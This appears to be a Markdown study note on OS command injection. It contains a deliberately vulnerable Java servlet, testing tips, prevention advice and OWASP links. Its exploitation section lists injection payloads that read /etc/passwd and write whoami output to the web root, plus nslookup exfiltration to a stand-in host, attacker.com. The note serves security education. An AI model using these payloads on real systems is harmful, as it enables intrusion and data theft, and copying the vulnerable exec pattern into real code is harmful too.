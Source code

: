 # Command Injection
---

## What Is OS Command Injection?
OS Command Injection is a vulnerability that consists of an attacker executing commands on the host operating system via a vulnerable application

```java
1 import java.io.IOException;
2 import javax.servlet.http.HttpServletRequest;
3 public void runUnsafe(HttpServletRequest request) throws IOException {
4 String cmd = request.getParameter("command");
5 String arg = request.getParameter("arg");
6 Runtime.getRuntime().exec(cmd+" "+arg);
7 }
```
Line #6 allows execution of arbitrary commands via client-side input

### Types Of Command Injection
1. **In-Band Command Injection**
* Consists of an attacker executing commands on the host operating system via a vulnerable application and receiving the response of the command in the application
2. **Blind Command Injection**
* Consists of an attacker executing commands on the host operating system via a vulnerable application that does not return the output from the command within its HTTP response

### Impact Of Command Injection Attacks
* Unauthorized access to the application and host operating system
    * **C**onfidentiality - can be used to view sensitive information
    * **I**ntegrity - can be used to alter content in the application
    * **A**vailability - can be used to delete content in the application
* Remote code execution on the host operating system

---

## How To Find Command Injection?

### Black-Box Testing
* Map the application
    * Identify all instances where the web application appears to be interacting with the underlying operating system
* Fuzz the application
    * Shell metacharacters: &, &&, |, "", ;, \n, ', $()
* For in-band command injection, analyze the response of the application to determine if it's vulnerable
* For blind command injection, you need to get creative
    * Trigger a time delay using the ping or sleep command
    * Output the response of the command in the web root and retrieve the file directly using a browser
    * Open an out-of-band channgel back to a server you control

### White-Box Testing
* Perform a combination of black box and white box testing
* Map all input vectors in the application
* Review source code to determine if any of the input vectors are added as parameters to functions that execute system commands

---

## How To Exploit Command Injection Vulnerabilities?

* Exploiting In-Band Command Injection
    * Shell metacharacters: &, &&, |, "", ;, \n, ', $()
    * Concatenate another command
        * `127.0.0.1 && cat /etc/passwd &`
        * `127.0.0.1 & cat /etc/passwd &`
        * `127.0.0.1 || cat /etc/passwd &`

* Exploiting Blind Command Injection
    * Shell metacharacters: &, &&, |, "", ;, \n, ', $()
    * Trigger a time delay
        * `127.0.0.1 && sleep 10 &`
        * `127.0.0.1 && ping -c 10 127.0.0.1`
    * Output the response of the command in the web root and retrieve the file directly using a browser
        * `127.0.0.1 & whoami > /var/www/static/whoami.txt &`
    * Open an out-of-band channel back to a server you control
        * `127.0.0.1 & nslookup lishdfo.attacker.com &`
        * `127.0.0.1 & nslookup 'whoami'.lishdfo.attacker.com &`

---

## How To Prevent Command Injection Vulnerabilities?
The most effective way to prevent OS Command Injection Vulnerabilities is to never call out to OS commands from application-layer code. Instead, implement the required functionality using safer platform APIs.
* For example: use `mkdir` instead of `system("mkdir /dir_name")`

It is required to perform OS commands using user-supplied input, then strong input validation must be performed.
* Validate against a whitelist of permitted values
* Validate that the input is as expected or valid input

---

## Resources
* [Web Security Academy – OS Command Injection](https://portswigger.net/web-security/os-command-injection)
* [OWASP Command Injection](https://owasp.org/www-community/attacks/Command_Injection)
* [OWASP OS Command Injection Defense Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/OS_Command_Injection_Defense_Cheat_Sheet.html)
* [OWASP WSTG Testing for Command Injection](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/12-Testing_for_Command)